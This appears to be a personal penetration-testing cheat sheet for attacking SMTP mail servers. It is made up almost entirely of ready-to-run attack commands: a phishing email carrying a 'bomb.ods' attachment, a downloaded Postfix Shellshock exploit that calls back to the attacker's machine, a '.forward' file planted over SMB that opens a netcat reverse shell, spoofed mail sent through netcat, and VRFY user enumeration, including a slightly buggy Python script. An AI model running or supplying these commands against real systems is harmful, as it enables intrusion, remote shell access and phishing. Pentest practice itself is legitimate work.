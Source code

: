 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s $TARGET:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

![[rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

#### Mail forward RCE
Found a .forward file in user's directory by SMB.

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\$SHARE -U "$USER%$PASWORD"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:HACKER@localhost
```
OR
```bash - kali
mail from:HACKER@example.org
```

```bash - kali
rcpt to:$USER@$TARGET
```

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```


#### User verification script

```bash - kali
VRFY root
```

```bash - kali
VRFY idontexist
```

![[Pasted image 20220406195439.png]]

```bash - kali
#!/usr/bin/python3

import socket
import sys

if len(sys.argv) != 2:

	print("Usage: vrfy.py <username>")
	sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect = s.connect(("$TARGET",25))

# Receive the banner
banner = s.recv(1024)
print(banner)

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print(result)

# Close the socket
s.close
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
